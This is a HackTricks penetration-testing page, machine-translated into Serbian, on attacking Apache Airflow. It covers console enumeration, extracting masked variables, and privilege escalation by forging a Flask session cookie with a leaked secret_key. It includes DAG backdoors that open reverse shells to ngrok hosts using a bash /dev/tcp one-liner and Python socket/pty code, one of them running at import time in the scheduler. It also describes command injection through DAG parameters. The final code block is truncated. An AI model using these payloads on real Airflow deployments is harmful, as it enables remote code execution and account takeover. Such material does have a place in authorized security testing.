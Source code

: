 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) služi kao platforma za **orchestraciju i zakazivanje podataka ili radnih tokova**. Termin "orchestracija" u kontekstu podataka označava proces organizovanja, koordinacije i upravljanja složenim radnim tokovima podataka koji potiču iz različitih izvora. Primarna svrha ovih orkestriranih radnih tokova podataka je da obezbede obrađene i upotrebljive skupove podataka. Ovi skupovi podataka se široko koriste u mnogim aplikacijama, uključujući, ali ne ograničavajući se na alate za poslovnu inteligenciju, modele podataka i mašinskog učenja, koji su svi osnovni za funkcionisanje aplikacija velikih podataka.

U suštini, Apache Airflow će vam omogućiti da **zakazujete izvršenje koda kada se nešto** (događaj, cron) **dogodi**.

### Local Lab

#### Docker-Compose

Možete koristiti **docker-compose konfiguracioni fajl sa** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) da pokrenete kompletno apache airflow docker okruženje. (Ako ste na MacOS-u, obavezno dodelite najmanje 6GB RAM-a docker VM-u).

#### Minikube

Jedan jednostavan način da **pokrenete apache airflow** je da ga pokrenete **sa minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Configuration

Airflow može čuvati **osetljive informacije** u svojoj konfiguraciji ili možete pronaći slabe konfiguracije:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Pre nego što počnete da napadate Airflow, trebali biste razumeti **kako funkcionišu dozvole**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Attacks

#### Web Console Enumeration

Ako imate **pristup web konzoli**, možda ćete moći da pristupite nekim ili svim sledećim informacijama:

* **Varijable** (Prilagođene osetljive informacije mogu biti sačuvane ovde)
* **Konekcije** (Prilagođene osetljive informacije mogu biti sačuvane ovde)
* Pristupite im na `http://<airflow>/connection/list/`
* [**Konfiguracija**](./#airflow-configuration) (Osetljive informacije kao što su **`secret_key`** i lozinke mogu biti sačuvane ovde)
* Lista **korisnika i uloga**
* **Kod svakog DAG-a** (koji može sadržati zanimljive informacije)

#### Retrieve Variables Values

Varijable se mogu čuvati u Airflow-u tako da **DAG-ovi** mogu **pristupiti** njihovim vrednostima. Slično je tajnama drugih platformi. Ako imate **dovoljno dozvola**, možete im pristupiti u GUI-u na `http://<airflow>/variable/list/`.\
Airflow po defaultu prikazuje vrednost varijable u GUI-u, međutim, prema [**ovome**](https://marclamberti.com/blog/variables-with-apache-airflow/), moguće je postaviti **listu varijabli** čija će se **vrednost** pojaviti kao **zvezdice** u **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Međutim, ove **vrednosti** se i dalje mogu **pribaviti** putem **CLI** (morate imati pristup bazi podataka), **izvršavanjem proizvoljnog DAG-a**, **API** pristupom krajnjoj tački varijabli (API mora biti aktiviran), i **čak i samim GUI-em!**\
Da biste pristupili tim vrednostima iz GUI-a, jednostavno **izaberite varijable** kojima želite da pristupite i **kliknite na Akcije -> Izvezi**.\
Drugi način je da izvršite **bruteforce** na **skrivenoj vrednosti** koristeći **filtriranje pretrage** dok je ne dobijete:

![](<../../.gitbook/assets/image (152).png>)

#### Privilege Escalation

Ako je konfiguracija **`expose_config`** postavljena na **True**, iz **uloge Korisnik** i **naviše** mogu **čitati** **konfiguraciju na web-u**. U ovoj konfiguraciji se pojavljuje **`secret_key`**, što znači da svaki korisnik sa ovim važećim može **napraviti svoj potpisani kolačić da bi se pretvarao da je bilo koji drugi korisnički nalog**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE u Airflow radniku)

Ako imate **pristup za pisanje** na mestu gde se **DAG-ovi čuvaju**, možete jednostavno **napraviti jedan** koji će vam poslati **reverse shell.**\
Imajte na umu da će ovaj reverse shell biti izvršen unutar **airflow radničkog kontejnera:**
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE u Airflow scheduler-u)

Ako postavite nešto da bude **izvršeno u korenu koda**, u trenutku pisanja ovog teksta, biće **izvršeno od strane scheduler-a** nakon nekoliko sekundi nakon što ga stavite unutar DAG-ove fascikle.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Kreiranje DAG-a

Ako uspete da **kompromitujete mašinu unutar DAG klastera**, možete kreirati nove **DAG skripte** u `dags/` folderu i one će biti **replicirane na ostalim mašinama** unutar DAG klastera.

#### Injekcija koda u DAG

Kada izvršavate DAG iz GUI-a, možete **proslediti argumente**.\
Stoga, ako DAG nije pravilno kodiran, mogao bi biti **ranjiv na Injekciju Komandi.**\
To se desilo u ovom CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Sve što treba da znate da **počnete da tražite injekcije komandi u DAG-ovima** je da se **parametri** **pristupaju** sa kodom **`dag_run.conf.get("param_name")`**.

Štaviše, ista ranjivost se može javiti i sa **varijablama** (imajte na umu da sa dovoljno privilegija možete **kontrolisati vrednost varijabli** u GUI-u). Varijable se **pristupaju sa**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Ako se koriste, na primer, unutar bash komande, mogli biste izvršiti injekciju komande.

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
